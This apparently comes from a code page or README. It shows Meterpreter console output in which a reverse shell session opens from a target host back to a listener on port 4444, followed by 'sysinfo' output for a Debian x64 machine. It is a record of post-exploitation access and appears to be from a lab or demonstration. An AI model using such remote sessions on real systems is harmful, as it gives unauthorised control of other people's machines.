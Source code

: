```plaintext
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 172.27.0.3:54362) at 2025-05-14 19:06:04 +0200

meterpreter > sysinfo
Computer     : 172.27.0.3
OS           : Debian 12.10 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
